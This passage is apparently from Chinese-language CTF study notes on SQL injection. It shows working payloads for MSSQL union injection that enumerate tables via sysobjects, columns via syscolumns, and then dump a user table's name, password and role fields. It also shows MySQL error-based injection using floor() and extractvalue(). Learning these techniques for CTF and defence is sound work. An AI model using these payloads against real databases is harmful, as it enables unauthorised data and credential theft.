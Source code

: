 2. 获取第二个表的名字。通过构造SQL语句可以爆出第二个表的名字，得到用户表User。仔细观察SQL语句的书写技巧：

   `id=1 and 1=2 union select top 1 1,'2',name,'4',5 from sysobjects where xtype='u' and name not in (select top 1 name from sysobjects where xtype = 'u')`

3. 找到用户后，通过系统表`syscolumns`爆出字段的名字。语句为：`id=1 and 1=2 union select top 1 1,'2',name,'4',5 from syscolumns where id = (select id from sysobjects where name= 'user')`，获取第一个字段。

4. **获取第二个字段。**

   `and 1=2 union select top 1 1,'2',name,'4',5 from syscolumns where id = (select id from sysobjects where name= 'user') and name not in(select top 1 name from syscolumns where id =(select id from sysobjects where name='user'))`，依次可以找出该表中还有password和role字段。

5. **获取字段内容。**

   从表user中获取name字段的内容。

      ![img](image\55.jpg)

      这里user添加一个[]是因为系统表中也存在user表，把name换成password和role就可以爆出相应字段的内容。



[返回目录](#CTF - SQL注入)

------



## MySql报错注入

**最常用三种报错注入方式分别是：`floor()`、`updatexml()`、`extractvalue()`。**

### floor()

`select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`

![img](image\202.png)

### extractvalue()

`select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));`

![img](image\251.png)
